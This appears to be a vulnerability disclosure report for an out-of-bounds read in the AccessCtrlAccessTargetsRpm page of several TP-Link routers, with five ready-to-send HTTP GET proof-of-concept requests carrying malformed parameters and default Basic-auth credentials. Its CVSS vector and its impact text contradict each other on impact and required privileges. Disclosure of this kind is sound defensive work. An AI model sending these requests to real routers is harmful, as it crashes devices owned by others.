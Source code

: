 # TP-Link TL-WR940N/TL-WR941ND/TL-WR743ND/TL-WR841N wireless router /userRpm/AccessCtrlAccessTargetsRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR940N V2/V3/V4,TP-Link TL-WR941ND V5/v6, WR743ND V1 and TP-Link TL-WR841N V8 wireless router. Its /userRpm/AccessCtrlAccessTargetsRpm component has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR940N V4  
  - TP-Link TL-WR940N V2/V3  
  - TP-Link TL-WR941ND V5/V6
  - TP-Link TL-WR743ND V1
  - TP-Link TL-WR841N V8  


## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR940N V4 is as follows:
```http
GET /HJIHOAFAGMOPWGIA/userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=test&dst_ip_start=192.168.2.100&dst_ip_end=192.168.2.199&dst_port_start=20&dst_port_end=22&proto=0&Commonport=0&url_0=&url_1=&url_2=&url_3=&||reboot=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.2.139:52911
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.2.139:52911/HJIHOAFAGMOPWGIA/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2/TL-WR941ND V5 is as follows:
```http
GET /MZKBGETBOHFWYCNC/userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=1&dst_ip_start=192.168.0.5&dst_ip_end=192.168.0.18&dst_port_start=12&dst_port_end=21&proto=1&Commonport=0&url_0=&url_1=&url_2=&url_3=&;reboot=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/ZRCEHZIAURWJWDTC/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link TL-WR940N V3/TL-WR941ND V6 is as follows:
```http
GET /IOCGBYQCUFENISDA/userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=1&dst_ip_start=192.168.0.5&dst_ip_end=192.168.0.18&dst_port_start=80&dst_port_end=32&proto=1&Commonport=4&url_0=&url_1=&url_2=&url_3=&;reboot|=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/WRKWVQRABLAJMDEB/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link WR743ND is as follows:
```http
GET /userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=soiefhsipf&dst_ip_start=192.168.1.4&dst_ip_end=192.168.1.33&dst_port_start=12&dst_port_end=23&proto=0&Commonport=0&url_0=&url_1=&url_2=&url_3=&Changed||reboot|=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49156
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49156/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link WR841N V8 is as follows:
```http
GET /userRpm/AccessCtrlAccessTargetsRpm.htm?target_type=1&targets_lists_name=wefzerg&dst_ip_start=192.168.0.4&dst_ip_end=192.168.0.33&dst_port_start=24&dst_port_end=45&proto=0&Commonport=0&url_0=&url_1=&url_2=&url_3=&|reboot|=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49169
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49169/userRpm/AccessCtrlAccessTargetsRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```  

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/AccessCtrlAccessTargetsRpm component has a security vulnerability in processing the Changed GET key parameter. The Changed parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits the Changed parameter of this vulnerability to cause a buffer out-of-bounds read error, which may lead to memory-sensitive information disclosure and denial of service. Attackers can use this vulnerability to directly achieve the effect of denial of service attacks.

The firmware simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/before.png)

![](./imgs/web.png)

![](./imgs/router2.png)

![](./imgs/router3.png)

![](./imgs/router4.png)

After sending the constructed PoC, the cache area read out of bounds and a BadVA error occurred, resulting in denial of service.

![](./imgs/read_err.png)

![](./imgs/after.png)

![](./imgs/err.png)

## 5. The basis for judging as a 0-day vulnerability

Searching the AccessCtrlAccessTargetsRpm keyword in the NVD database did not find any vulnerabilities; searching the firmware model + parameter Changed keyword in the NVD database did not find any vulnerabilities, so it is considered a 0-day vulnerability.